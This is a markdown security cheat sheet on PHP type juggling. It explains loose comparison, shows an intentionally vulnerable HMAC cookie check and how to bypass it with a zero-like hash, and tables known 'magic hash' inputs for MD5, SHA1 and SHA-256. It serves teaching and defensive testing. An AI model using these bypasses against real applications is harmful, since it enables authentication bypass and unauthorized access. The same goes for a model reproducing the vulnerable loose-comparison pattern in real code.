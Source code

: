 # PHP Juggling type and magic hashes

PHP provides two ways to compare two variables:

- Loose comparison using `== or !=` : both variables have "the same value".
- Strict comparison using `=== or !==` : both variables have "the same type and the same value".

PHP type juggling vulnerabilities arise when loose comparison (== or !=) is employed instead of strict comparison (=== or !==) in an area where the attacker can control one of the variables being compared. This vulnerability can result in the application returning an unintended answer to the true or false statement, and can lead to severe authorization and/or authentication bugs.

> PHP8 won't try to cast string into numbers anymore, thanks to the Saner string to number comparisons RFC, meaning that collision with hashes starting with 0e and the likes are finally a thing of the past! The Consistent type errors for internal functions RFC will prevent things like `0 == strcmp($_GET['username'], $password)` bypasses, since strcmp won't return null and spit a warning any longer, but will throw a proper exception instead. 

## Type Juggling

### True statements

```php
var_dump('0010e2'   == '1e3');           # true
var_dump('0xABCdef' == ' 0xABCdef');     # true PHP 5.0 / false PHP 7.0
var_dump('0xABCdef' == '     0xABCdef'); # true PHP 5.0 / false PHP 7.0
var_dump('0x01'     == 1)                # true PHP 5.0 / false PHP 7.0
var_dump('0x1234Ab' == '1193131');
```

```php
'123'  == 123
'123a' == 123
'abc'  == 0
```

```php
'' == 0 == false == NULL
'' == 0       # true
0  == false   # true
false == NULL # true
NULL == ''    # true
```

### NULL statements

```php
var_dump(sha1([])); # NULL
var_dump(md5([]));  # NULL
```

### Example vulnerable code

```php
function validate_cookie($cookie,$key){
	$hash = hash_hmac('md5', $cookie['username'] . '|' . $cookie['$expiration'], $key);
	if($cookie['hmac'] != $hash){ // loose comparison
		return false;
	... 
```

The `$cookie` variable is provided by the user. The $key variable is a secret and unknown to the user.

If we can make the calculated hash string Zero-like, and provide "0" in the `$cookie['hmac']`, the check will pass.

```ps1
"0e768261251903820937390661668547" == "0"
```

We have control over 3 elements in the cookie:
- `$username` - username you are targeting, probably "admin"
- `$hmac` - the provided hash, "0"
- `$expiration` - a UNIX timestamp, must be in the future

Increase the expiration timestamp enough times and we will eventually get a Zero-like calculated HMAC.

```ps1
hash_hmac(admin|1424869663) -> "e716865d1953e310498068ee39922f49"
hash_hmac(admin|1424869664) -> "8c9a492d316efb5e358ceefe3829bde4"
hash_hmac(admin|1424869665) -> "9f7cdbe744fc2dae1202431c7c66334b"
hash_hmac(admin|1424869666) -> "105c0abe89825a14c471d4f0c1cc20ab"
...
hash_hmac(admin|1835970773) -> "0e174892301580325162390102935332" // "0e174892301580325162390102935332" == "0"
```

## Magic Hashes - Exploit

If the hash computed starts with "0e" (or "0..0e") only followed by numbers, PHP will treat the hash as a float.

| Hash | "Magic" Number / String    | Magic Hash                                    | Found By / Description      |
| ---- | -------------------------- |:---------------------------------------------:| -------------:|
| MD4  | gH0nAdHk                   | 0e096229559581069251163783434175              | [@spaze](https://github.com/spaze/hashes/blob/master/md4.md) |
| MD4  | IiF+hTai                   | 00e90130237707355082822449868597              | [@spaze](https://github.com/spaze/hashes/blob/master/md4.md) |
| MD5  | 240610708                  | 0e462097431906509019562988736854              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | QNKCDZO                    | 0e830400451993494058024219903391              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 0e1137126905               | 0e291659922323405260514745084877              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 0e215962017                | 0e291242476940776845150308577824              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 129581926211651571912466741651878684928                | 06da5430449f8f6f23dfc1276f722738              | Raw: ?T0D??o#??'or'8.N=? |
| SHA1 | 10932435112                | 0e07766915004133176347055865026311692244      | Independently found by Michael A. Cleverly & Michele Spagnuolo & Rogdham |
| SHA-224 | 10885164793773          | 0e281250946775200129471613219196999537878926740638594636 | [@TihanyiNorbert](https://twitter.com/TihanyiNorbert/status/1138075224010833921) |
| SHA-256 | 34250003024812          | 0e46289032038065916139621039085883773413820991920706299695051332 | [@TihanyiNorbert](https://twitter.com/TihanyiNorbert/status/1148586399207178241) |
| SHA-256 | TyNOQHUS                | 0e66298694359207596086558843543959518835691168370379069085300385 | [@Chick3nman512](https://twitter.com/Chick3nman512/status/1150137800324526083)

```php
<?php
var_dump(md5('240610708') == md5('QNKCDZO')); # bool(true)
var_dump(md5('aabg7XSs')  == md5('aabC9RqS'));
var_dump(sha1('aaroZmOk') == sha1('aaK1STfY'));
var_dump(sha1('aaO8zKZF') == sha1('aa3OFF9m'));
?>
```

## References

* [Writing Exploits For Exotic Bug Classes: PHP Type Juggling By Tyler Borland](http://turbochaos.blogspot.com/2013/08/exploiting-exotic-bugs-php-type-juggling.html)
* [Magic Hashes - WhiteHatSec](https://www.whitehatsec.com/blog/magic-hashes/)
* [PHP Magic Tricks: Type Juggling](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf)
* [spaze/hashes - Magic hashes – PHP hash "collisions"](https://github.com/spaze/hashes)
* [(Super) Magic Hashes - Mon 07 October 2019 - myst404 (@myst404_)](https://offsec.almond.consulting/super-magic-hash.html)